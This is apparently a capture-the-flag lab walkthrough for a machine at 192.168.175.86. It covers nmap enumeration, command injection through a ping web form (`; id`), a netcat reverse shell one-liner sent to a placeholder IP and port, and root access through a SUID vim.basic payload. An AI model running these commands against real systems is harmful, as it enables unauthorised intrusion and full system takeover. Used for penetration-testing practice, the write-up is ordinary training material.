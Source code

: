 
sepi0l | January 1 | 2024

## Enumeration:  

### Nmap
```bash
mkdir nmap
nmap 192.168.175.86  -sC -sV -T3 -vvv -oN nmap/initial 
nmap 192.168.175.86  -p- -oN nmap/all_ports 
```

#### Output:

```bash
# Nmap 7.94 scan initiated Tue Jan  2 14:05:55 2024 as: nmap -sC -sV -T3 -vvv -oN nmap/initial 192.168.175.86
Nmap scan report for 192.168.175.86
Host is up, received syn-ack (0.21s latency).
Scanned at 2024-01-02 14:05:58 IST for 185s
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site does not have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /opt/homebrew/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  2 14:09:03 2024 -- 1 IP address (1 host up) scanned in 188.28 seconds

```


### Website : 

Port 80 has a website which offers a basic functionality to ping hosts. 
Could be susceptible to command injection.

![[Pasted image 20240102141320.png]]

A basic command injection payload such as `; id` confirms our guess. It displays the output of the id command.

![[Pasted image 20240102141507.png]]

## Gaining Access:

Let's try Getting a reverse shell with this oneliner  :  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP PORT >/tmp/f
```

Reverse shell received, we are in.
![[Pasted image 20240102142240.png]]

let's spawn a tty :
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```


## Privilege Escalation:

Let's start with finding SUID binaries which we can exploit to escalate our privileges .

```bash
find / -type f -perm -4000 2>/dev/null
```

#### Output:

![[Pasted image 20240102142834.png]]

We have a SUID binaries which stands out. `/usr/bin/vim.basic`.

Let's look at  **GTFOBINS** [https://gtfobins.github.io/gtfobins] to discover possible ways of abusing this binary.

#### Root via Vim :

![[Pasted image 20240102143205.png]]

Looks like , we can use the above command to spawn a `/bin/sh` shell as the root user. Let's try if it works:

It throws an error. That's because the machine doesn't have python, but our payload uses python. Let's modify the payload and change `:py` to :`py3` to use python3.  This is the modified payload.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

And that works. We now have our Effective User ID(EUID) set to 0 which is the EUID of root. 

![[Pasted image 20240102143831.png]]

We have pwned the machine!.


]
